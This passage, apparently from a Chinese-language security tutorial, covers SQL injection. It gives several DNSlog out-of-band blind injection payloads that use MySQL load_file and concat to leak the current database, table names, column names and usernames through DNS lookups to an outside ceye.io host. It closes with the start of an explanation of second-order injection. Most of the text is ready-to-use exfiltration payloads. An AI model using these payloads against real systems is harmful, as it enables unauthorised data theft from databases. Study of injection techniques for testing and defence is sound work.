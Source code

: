 [http://ceye.io](http://ceye.io/)

[http://www.dnslog.cn](http://www.dnslog.cn/)

### DNSlog盲注操作方式

#### Payload1：

```sql
?Id=1’and load_file(concat('\\\\',(select database()),'.c4d3hg.ceye.io\\sql'))--+
//相应的更换 select database()查询语句便可以实现DNS外带的回显注入，其中c4d3hg.ceye.io为ceye.io平台给每个账号的昵称
```

查询当前数据库：

```sql
and load_file(concat('\\\\',(select database()),'.c4d3hg.ceye.io\\sql'))--+
//xtftm5.ceye.io根据ceye平台给你的域名更改，\\sql是域名目录，随意即可，select database()换成sql注入payload即可
```

查询表名：

```sql
and load_file(concat('\\\\',(select table_name from information_schema.tables where table_schema='security'limit 0,1),'.c4d3hg.ceye.io\\sql'))--+
```

查询列名：

```sql
and load_file(concat('\\\\',(select column_name from information_schema.columns where table_schema='security' and table_name='users' limit 0,1),'.c4d3hg.ceye.io\\sql'))--+
```

查询数据：

```sql
and load_file(concat('\\\\',(select username from users limit 0,1),'.c4d3hg.ceye.io\\sql'))--+
```

#### Payload2：

```sql
and (select load_file(concat('\\\\',(select database()),'.c4d3hg.ceye.io\\aaa')))#
```

原理跟上面差不多

## 二次注入

### 定义

所谓二次注入是指已存储（数据库、文件）的用户输入被读取后再次进入到SQL 查询语句中导致的注入。 二次注入是sql注入的一种，但是比普通sql注入利用更加困难，利用门槛更高。 普通注入数据直接进入到SQL 查询中，而二次注入则是输入数据经处理后存储，取出后，再次进入到SQL 查询。

### 原理

二次注入的原理，在第一次进行数据库插入数据的时候，仅仅只是使用了 `addslashes` 或者是借助 `get_magic_quotes_gpc` 对其中的特殊字符进行了转义，在写入数据库的时候还是保留了原来的数据，但是数据本身还是脏数据。
